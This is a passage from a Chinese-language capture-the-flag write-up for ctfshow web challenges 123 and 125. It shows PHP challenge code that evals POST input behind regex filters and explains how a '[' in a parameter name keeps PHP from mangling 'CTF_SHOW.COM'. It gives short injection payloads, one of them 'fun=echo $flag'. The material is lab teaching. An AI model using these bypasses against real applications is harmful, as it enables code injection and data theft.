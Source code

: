 最后跑出来的结果是 %0c(换页符)

payload

```
?num=%0c36
```



### web123

```
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
```

这里有个很坑的点

> 在php中变量名字是由数字字母和下划线组成的，所以不论用post还是get传入变量名的时候都将空格、+、点、[转换为下划线，但是用一个特性是可以绕过的，就是当[提前出现后，后面的点就不会再被转义了，such as：`CTF[SHOW.COM`=>`CTF_SHOW.COM`

也就是说当我面`POST`  `CTF_SHOW.COM`时，会自动解析成`CTF_SHOW_COM`

payload

```
POST: CTF_SHOW=1&CTF[SHOW.COM=2&fun=echo $flag
```



### web125

```
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16){
         eval("$c".";");
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
} 
```
